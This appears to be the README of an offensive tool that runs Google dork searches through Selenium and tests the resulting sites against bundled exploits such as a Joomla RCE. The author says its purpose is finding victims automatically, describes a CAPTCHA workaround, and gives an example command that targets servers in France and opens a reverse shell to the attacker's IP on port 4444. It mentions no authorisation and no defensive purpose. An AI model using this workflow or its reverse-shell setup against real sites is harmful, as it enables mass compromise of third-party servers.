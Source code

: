 [+] Google Mass Explorer
This is a automated robot for google search engine.

Make a google search, and parse the results for a especific exploit you define.
The options can be listed with --help parameter.

Intro:
This project is a main project that i will keep upgrading when new exploits are published. They idea is use google search engine to find vulnerable targets, for specific exploits. The exploits parsers will be concentrated in google_parsers module. So when you make a search, you can choose explicit in "--exploit parser" argument, a especific exploit to the robot test if is the targets are vulnerable for that or not.
*** Is very important you use the right dork for the specific exploit.

The google parsers module (google_parsers.py) is the file that i will keep upgrading. For this version i'm putting just the joomla cve exploit. I have a wordpress bot too, but the ideia is you make your own parsers =))) If you have difficul to make, just send me the exploit and we make together =))

I make this google explorer because i'm very busy, and take to much time to search for targets in google manually. So I use a automated framework (Selenium) to make a robot to search for targets for me ;)) The problem using other libs and modules, is the captcha from google, and using Selenium, you can type the captcha when it is displayed, and the robots keeps crawling with no problem =)) This was the only way i find out to "bypass" this kind of protection... After it work, i decide to publish to everyone.

Basictly, how the robot works:
1 - Make a google search
2 - Parse the from each page results
3 - Test if each target is vulnerable for a specific exploit.

Requiriments:
-----> !!!!!! PYTHON 3  !!!!!! <------ THIS PROJECT IS ONLY FOR PYTHON 3 !!!!!!! 
The requirements is in requirements.txt file, you should install what is listed on it with: 
$ sudo pip install -R requirements.txt

These are some exemples that you can use, and make your own:

python3 google_explorer.py --dork="site:*.com inurl:index.php?option=" --browser="chrome" --exploit_parser="joomla_15_12_2015_rce" --revshell="MY_PUBLIC_IP" --port=4444 --google_domain="google.com" --location="França" --last_update="no último mês"

On this exemple, im looking for servers in France, vulnerables to joomla RCE, using google.com domain as google search (they are listed in google_doomais.txt file), with last update on last month.

All these options are possible to any language, it will depends only in what google use for syntax for your country..

I have some old videos on my channel on youtube showing how it works, so take a look at the description of the olders projects in github if you need some video exemples ;))


These are the current options for this project:

Usage:
    google_explorer.py --dork=<arg> --browser=<arg> [--exploit_parser=<arg>] [--language=<arg>]
                                                    [--location=<arg>]       [--last_update=<arg>]
                                                    [--revshell=<arg>]       [--port=<arg>]
                                                    [--google_domain=<arg>]

    google_explorer.py --help
    google_explorer.py --version

Options:
    -h --help                                Open help menu
    -v --version                             Show version

Required options:
    --dork='google dork'                     your favorite g00gle dork :)
    --browser='browser'                      chrome
                                             chromium


Optional options:
    --language='page language'               Portuguese
                                             English
                                             Arabic
                                             Romanian
                                             ...
                                             ...
    
    --location='server location'             Brazil
                                             Mauritania
                                             Tunisia
                                             Marroco
                                             Japan
                                             ...
                                             ...
    
    --last_update='page last update'         anytime
                                             past 24 hours
                                             past week
                                             past month
                                             past year

    --exploit_parser='Name or CVE exploit'   joomla_15_12_2015_rce
                                             joomla_aicontactsafe

    --revshell='IP'                          public ip for reverse shell
    --port='PORT'                            port for back connect

    --google_domain='google domain'          google domain to use on search. Ex: google.co.uk







